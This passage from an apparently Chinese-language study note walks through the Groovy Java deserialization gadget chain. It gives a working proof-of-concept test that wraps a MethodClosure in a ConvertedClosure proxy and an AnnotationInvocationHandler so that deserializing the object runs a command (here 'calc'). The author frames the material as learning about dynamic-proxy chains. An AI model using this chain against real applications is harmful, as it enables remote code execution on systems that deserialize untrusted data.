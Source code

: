 3. 回顾上述流程，可以看到有两个 `if` 需要注意。分别是 `!checkMethod(method)` 和 `methodName != null && !methodName.equals(method.getName())`。
    先来看第一个，第一个的意思是检查调用的方法是否是 `Object` 的原生方法，如果不是则进入 `if`，显然默认逻辑下成立，所以不用管。
    再来看第二个，需要传入的 `method` 为空或者 `ConvertedClosure` 初始化时和代理时指定的方法相同则调用 `call()`。

4. 显然现在需要**它作为动态代理类**来操作，可是现在有两个问题：

    1. 代理谁？即哪个类作为被代理对象。
    2. kick-off 的 `readObject()` 可以触发代理对象中的方法。

    回顾以往的例子，可以想到 `AnnotationInvocationHandler` 和 `Map`。

### 2.4 PoC 构造

1. 使用 `AnnotationInvocationHandler` 作为 kick-off，`Map` 作为被代理的类，可以构造出以下 PoC：
    ```java
    @Test
    public void testGroovy() throws Exception {
        // 1. 先构造 sink 和 chain1
        MethodClosure methodClosure = new MethodClosure("calc", "execute");
    
        // 2. 构造 chain2 - ConvertedClosure 和代理需要的 Map
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");
        // 后面的参数填 null 也行，反正目的就是绕过那个 if
        // ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("EndlessShw", "EndlessShw");
        // 构造代理，将 ConvertedClosure 当作处理类
        Map<?, ?> map = (Map<?, ?>) Proxy.newProxyInstance(hashMap.getClass().getClassLoader(), hashMap.getClass().getInterfaces(), convertedClosure);
    
        // 3. 回到 kick-off，先反射创建 AnnotationInvocationHandler
        Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
        aihClassConstructor.setAccessible(true);
        Object aih = aihClassConstructor.newInstance(Override.class, map);
    
        String serialize = serialize(aih);
        unSerialize(serialize);
    }
    ```

2. 链的大致过程如下：
    ```java
    /*
    	AnnotationInvocationHandler.readObject()
    		Map(Proxy).entrySet()
    			ConvertedClosure(InvocationHandler).invoke()
    				ConvertedClosure.invokeCustom()
    					MethodClosure.call()
    						"calc".execute()		
    */
    ```

3. Groovy 现在用这个版本的应该很少了，这里学 Groovy 链主要是为了之后学其他使用了动态代理的链做铺垫。
